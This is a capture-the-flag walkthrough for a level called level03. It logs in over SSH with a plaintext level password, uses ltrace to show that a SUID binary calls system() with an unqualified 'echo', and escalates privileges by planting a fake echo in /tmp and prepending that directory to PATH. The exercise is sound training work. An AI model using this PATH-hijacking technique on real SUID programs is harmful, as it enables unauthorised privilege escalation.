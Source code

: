 # 03

Login

```b
> ssh level03@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: kooda2puivaav1idi4f57q8iq
```

Inspect
- ❌ `file` `readelf` `strings` 
- also try `id, namei`

```
> ls -l
-rwsr-sr-x 1 flag03 level03 8627 level03
 ^^^
    ^^^ SUID and SGID are set for exec, ie. whichever user/group run the
        bin, it exec w/ temporary privileges of the owner of the file

👉 when ./level03 is run
  the entire process runs with owner flag03's priviledges, 
  ie. we gain temporary permissions as flag03
```

✅ Use `ltrace` 
- tracing library function calls when the binary is executed

```b
> ltrace ./level03

### output
getegid()                                           = 2003
geteuid()                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me" ...

### observations
👉 sets the real u/g id, the effective u|g id and
the saved set-user|group-ID of the calling process
```

- Solution

```b
> whereis getflag
getflag: /bin/getflag
> echo -e "/bin/getflag" > /tmp/echo
> chmod +x /tmp/echo
> export PATH=/tmp:$PATH  👈 prepend tmp to get it checked first
> ./level03
```
